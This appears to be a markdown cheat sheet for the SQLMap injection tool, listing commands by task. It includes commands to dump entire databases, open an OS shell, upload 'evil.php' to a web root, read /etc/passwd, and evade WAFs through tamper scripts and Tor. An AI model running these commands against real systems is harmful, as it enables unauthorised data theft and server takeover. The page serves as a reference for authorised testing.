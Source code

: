 ```yaml
---
title: SQLMap
slug: sqlmap
description: Automated SQL injection and database takeover tool.
categories: ["Exploitation", "Web Application Security"]
bgColor: "bg-indigo-100"
textColor: "text-indigo-800"
top: true
---
```


  title: "SQLMap",
  category: "Exploitation",
  slug: "sqlmap",
};

## SQLMap Commands Cheat Sheet


### 🔍 1. Discovery & Detection
Commands to identify SQL injection vulnerabilities and types.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL>` | Basic SQL injection test. |
| `sqlmap -u <target_URL> --technique=BLIND` | Test for blind SQL injection. |
| `sqlmap -u <target_URL> --technique=TIME` | Specifically test for time-based blind injection. |
| `sqlmap -u <target_URL> --risk=3 --level=5` | Increase risk and level for more thorough testing. |
| `sqlmap -u <target_URL> --crawl=3` | Crawl target site to find injectable URLs. |
| `sqlmap -u <target_URL> --forms` | Test all forms on the page for injection. |
| `sqlmap -u <target_URL> --batch` | Skip user prompts for automated testing. |

---

### 🏗️ 2. Database Structure Enumeration
Commands to map out databases, tables, and columns.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --dbs` | Enumerate all databases. |
| `sqlmap -u <target_URL> -D <database_name> --tables` | List tables in a database. |
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --columns` | List columns in a table. |

---

### 🧾 3. Data Extraction
Commands to retrieve data from database tables.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump` | Dump data from a specific table. |
| `sqlmap -u <target_URL> --dump-all` | Dump all data from all databases. |
| `sqlmap -u <target_URL> --search -C <column_name>` | Search for specific columns across databases. |

---

### 🖥️ 4. Shell Access & File Operations
Commands for advanced exploitation and server interaction.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --sql-shell` | Open interactive SQL shell. |
| `sqlmap -u <target_URL> --os-shell` | Try to get an OS shell on the server. |
| `sqlmap -u <target_URL> --file-write=evil.php --file-dest=/var/www/html/evil.php` | Upload a file to the target server. |
| `sqlmap -u <target_URL> --file-read=/etc/passwd` | Read a file from the server. |

---

### 🧰 5. Customization & Headers
Fine-tune HTTP requests with headers, cookies, and method.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --cookie="SESSIONID=xyz"` | Include cookies in requests. |
| `sqlmap -u <target_URL> --header="X-Custom: value"` | Add custom HTTP headers. |
| `sqlmap -u <target_URL> --user-agent="CustomAgent"` | Set a custom User-Agent header. |
| `sqlmap -u <target_URL> --referer="https://google.com"` | Set a custom Referer header. |
| `sqlmap -u <target_URL> --method=POST --data="username=admin&password=pass"` | Use POST method with custom data. |

---

### 🛡️ 6. Evading Detection
Options to bypass Web Application Firewalls (WAFs) and filtering.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --tamper=space2comment` | Use tamper script to evade filters. |
| `sqlmap -u <target_URL> --random-agent` | Use a random User-Agent for requests. |
| `sqlmap -u <target_URL> --tor --tor-type=SOCKS5 --check-tor` | Route traffic through Tor network for anonymity. |
| `sqlmap -u <target_URL> --waf` | Detect and attempt to bypass WAF. |

---

### 🧪 7. Output & Logging
Control output saving and verbosity.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --output-dir=outputs` | Save all output to the specified directory. |
| `sqlmap -u <target_URL> --verbose=3` | Show detailed verbose output. |
| `sqlmap -u <target_URL> -v 0` | Suppress most output (quiet mode). |

---

### 📁 8. Configuration & Help
Helpful commands for configuration and assistance.

| Command | Description |
|---------|-------------|
| `sqlmap --help` or `sqlmap -h` | Show help and usage information. |
| `sqlmap -u <target_URL> --update` | Update SQLMap to the latest version. |
| `sqlmap -u <target_URL> --conf=config.txt` | Load options from a configuration file. |

---

## Example Usage {.cols-1}

```bash
# Test a URL for SQL Injection
sqlmap -u "http://example.com/vuln.php?id=1"

# Enumerate databases
sqlmap -u "http://example.com/vuln.php?id=1" --dbs

# List tables in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users --tables

# Dump data from 'accounts' table in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users -T accounts --dump

# Use a proxy for traffic analysis
sqlmap -u "http://example.com/vuln.php?id=1" --proxy="http://127.0.0.1:8080"

# Run with custom HTTP header
sqlmap -u "http://example.com/vuln.php?id=1" --header="Authorization: Bearer token123"
